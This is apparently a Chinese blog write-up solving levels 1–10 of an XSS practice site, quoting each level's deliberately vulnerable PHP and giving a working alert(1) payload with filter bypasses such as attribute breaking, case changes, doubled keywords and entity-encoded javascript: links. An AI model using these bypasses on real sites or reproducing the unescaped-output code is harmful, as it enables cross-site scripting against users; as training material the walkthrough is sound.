 ```yaml
---
title: xss(1~10)
date: 2019-03-08
---
```

[xss闯关入口](http://test.xss.tv "xss闯关入口")

## less-1
查看源代码，

```
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```
并没有过滤，
payload:`name=<script>alert(1)</script>`

## less-2
查看源代码，
```
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
```
有两处输出，第一处在echo处，但被做了转义处理，起到过滤效果，第二处在input处，没有过滤，所以选择在表单的input里攻击,注意语句闭合方式为 " ，
payload:`" onclick="alert(1)`

## less-3
查看源代码，
```
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
```
两处输出位置都做了转义处理，都被过滤了，所以 "，<，>符号（双引号和尖括号）就没有效果了，但是源码里input里的value的闭合方式为 '，所以还是可以攻击的。
payload:`' onclick='alert(1)`

## less-4
查看源代码，
```
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
```
两处输出位置，一处被转义了，input处没被转义，但是被做了函数处理，尖括号被替换为了空，和less-3的套路一样。
payload:`" onclick="alert(1)`

## less-5
查看源代码，

```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
```
有两处输出，一处被做了转义处理，input处输入被做了小写和on，<script被做了替换处理，
payload:`"><a href="javascript:alert(1)">xss</a>`

## less-6
查看源代码，
```
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
```
有两处输出，一处被做了转义处理，input处<script,on,src,data,href被做了替换处理，但是没有做less-5中的小写处理，所以可以通过大写替换字绕过，
payload:`" ONclick="alert(1)`

## less-7
查看源代码，
```
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
```
有两处输出，一处被做了转义处理，input处做了小写处理和script,on,src,data,href被做了替换处理，可以利用双写来拼合成，例如oonn被处理后就变为了on，
payload:`" oonnclick="alert(1)`

## less-8
查看源代码，
```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
……
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
```
有两处输出，一处input做了转义处理，另一处做了小写处理和script,on,src,data,href，" ，被做了替换处理，这题的关键在友情链接处,点击"添加友情链接"后会在友情链接出加入一个拼接的语句。
t的ASCII码116用表示为"&#116"，同理:表示为"&#58"，
payload:`javascrip&#116:alert(1)`

## less-9
查看源代码，
```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
……
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
……
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
```
有两处输出，一处input做了转义处理，另一处做了小写处理和script,on,src,data,href，" ，被做了替换处理，而且出现了strpos()函数，表示查找 "http://" 在字符串中第一次出现的位置。只要!=false，就会跳向可攻击的语句，所以构造的语句中要含有http://，利用javascript中的注释符//，
payload:`javascrip&#116:alert(1)//http://`

## less-10
查看源代码，
```
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
```
有两处输出，一处被做了转义，一处input被作为隐藏表单(type="hidden")处理页面没有显示，需要先将隐藏表单触发显示出来，然后在input处攻击，看到url处可以get参数t_sort，所以可以构造payload了。
payload:`url后加 &t_sort=xss" onclick=alert(1) type="text"`


***xss(1~10)关卡全部完成了，如有错误，欢迎在评论中指出!***
